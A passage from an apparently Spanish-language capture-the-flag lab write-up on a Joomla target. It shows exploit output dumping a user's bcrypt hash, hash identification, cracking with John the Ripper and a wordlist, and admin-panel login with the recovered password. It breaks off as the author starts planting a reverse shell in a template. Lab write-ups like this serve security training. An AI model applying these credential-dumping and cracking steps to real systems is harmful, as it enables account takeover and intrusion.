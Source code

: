 ```bash
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user [u'811', u'Super User', u'jonah', u'jonah@tryhackme.com', u'$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', u'', u'']
  -  Extracting sessions from fb9j5_session
```

La ejecución del exploit nos muestra una tabla denominada `fb9j5_users` y el usuario `jonah`, junto con su dirección de correo electrónico y una contraseña que se encuentra en formato hash.

Utilizamos la herramienta `hashid` para identificar los posibles formatos asociados al hash, y esta nos muestra tres opciones.

```bash
❯ hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

Sin embargo, para asegurarnos del tipo de hash, verificamos manualmente en la página [Example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes).

![hashes](hashes.png){: .center-image }

Según el ejemplo del hash que hemos verificado en la página, podemos confirmar que el tipo de hash utilizado es **bcrypt**. Por lo tanto, procederemos a utilizar la herramienta `John the Ripper` para intentar crackear este hash especificando el formato `bcrypt`.

```bash
❯ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:05:08 DONE (2023-04-02 22:20) 0.003237g/s 151.6p/s 151.6c/s 151.6C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Después de finalizar el proceso, obtuvimos la contraseña crackeada, la cual corresponde a `spiderman123`.

Después de intentar sin éxito acceder por SSH utilizando las credenciales del usuario `jonah`, realizamos un intento de inicio de sesión en el panel de administración de Joomla, accediendo a la ruta `/administrator/index.php`. Afortunadamente, tuvimos éxito al iniciar sesión utilizando las mismas credenciales.

![index](index.png)

Una vez que ingresamos al panel de administración, procedemos a editar una plantilla cargando un código que nos permita obtener una shell inversa. Para ello, nos dirigimos a la sección de `Templates` seleccionando la opción `Extensions` y luego `Templates`.
